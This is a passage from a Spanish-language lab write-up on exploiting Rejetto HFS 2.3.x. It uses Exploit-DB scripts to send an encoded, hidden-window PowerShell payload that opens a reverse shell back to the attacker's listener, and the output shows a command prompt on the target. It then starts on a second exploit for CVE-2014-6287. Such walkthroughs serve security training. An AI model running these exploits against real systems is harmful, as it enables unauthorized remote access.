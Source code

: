 Vamos a copiarlo en nuestro directorio actual de trabajo:
```bash
searchsploit -m windows/remote/49584.py
  Exploit: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49584
     Path: /usr/share/exploitdb/exploits/windows/remote/49584.py
    Codes: N/A
 Verified: False
File Type: ASCII text, with very long lines (546)
```
Analizando el Exploit, parece que crea un payload de una conexión mediante **PowerShell** que se va a ejecutar en el **Rejetto HFS** y nos dará una **Reverse Shell**.

Solamente tenemos que poner nuestra IP y un puerto a usar, y luego ponemos la IP de la máquina víctima y el puerto donde se está ejecutando el **Rejetto HFS**:
```python
lhost = "Tu_IP"
lport = 443
rhost = "192.168.1.180"
rport = 80
```

Una vez que lo modifiques, ejecútalo:
```bash
python3 49584.py

Encoded the command in base64 format...

Encoded the payload and sent a HTTP GET request to the target...

Printing some information for debugging...
lhost:  Tu_IP
lport:  443
rhost:  192.168.1.180
rport:  80
payload:  exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand JABjA...
Listening for connection...
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.180] 49176

PS C:\Users\hacker\Downloads> whoami
win-re8njpg9k5n\hacker
```
Funciono y estamos dentro.

<br>

<h2 id="Exploit2">Probando Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)</h2>

Esta es otra opción que podemos utilizar para ganar acceso a la máquina víctima.

Vamos a descargarlo en nuestro directorio actual de trabajo:
```bash
searchsploit -m windows/remote/39161.py
  Exploit: Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
      URL: https://www.exploit-db.com/exploits/39161
     Path: /usr/share/exploitdb/exploits/windows/remote/39161.py
    Codes: CVE-2014-6287, OSVDB-111386
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (540)
```
